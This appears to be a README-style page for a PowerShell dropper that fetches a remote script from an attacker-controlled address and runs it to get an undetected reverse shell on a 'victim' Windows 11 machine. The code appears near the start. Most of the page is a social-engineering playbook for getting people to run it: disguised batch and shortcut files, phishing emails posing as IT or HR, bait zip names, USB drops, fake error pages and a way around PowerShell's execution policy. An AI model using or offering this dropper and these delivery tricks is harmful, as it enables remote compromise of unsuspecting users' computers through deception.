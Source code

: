 By runnning the following dropper on the Windows 11 victim machine you can obtain a reverse shell that remains undetected (25/14/6)!


$wc = New-Object System.Net.WebClient

$code = $wc.DownloadString("http://10.0.0.21/lsass.ps1")

Invoke-Expression $code 

Note - update the web address in the $code variable, and in the script itself. 

Here are a few ways you can have someone run the dropper:

Batch File Wrapper

Wrap the PowerShell dropper in a .bat file and name it something like OpenMe.bat, ActivateLicense.bat, or FixErrors.bat.

Rename as a Shortcut File (.lnk)

Use a shortcut icon that looks like a folder or document, but the shortcut runs PowerShell silently.

Email Attachment or Link

Send an email pretending to be IT, HR, or customer support:
“Run this tool to fix an issue with your account”

 Zip File Disguise

Place the .bat or .ps1 inside a .zip with names like Invoice_Tool.zip, GamePatch.zip, or Resume_Viewer.zip.

USB Drop Attack

Leave a USB drive labeled "Photos", "Payroll Info", etc., with an autorun.bat or enticing file.

Fake Error Message + Instructions

Social engineer the user into copy/pasting a PowerShell command into their terminal (e.g., from a fake webpage or chat support).

Right-Click Instructions

Provide instructions like "Right click the file and choose 'Run with PowerShell'" to bypass .ps1 execution restrictions.
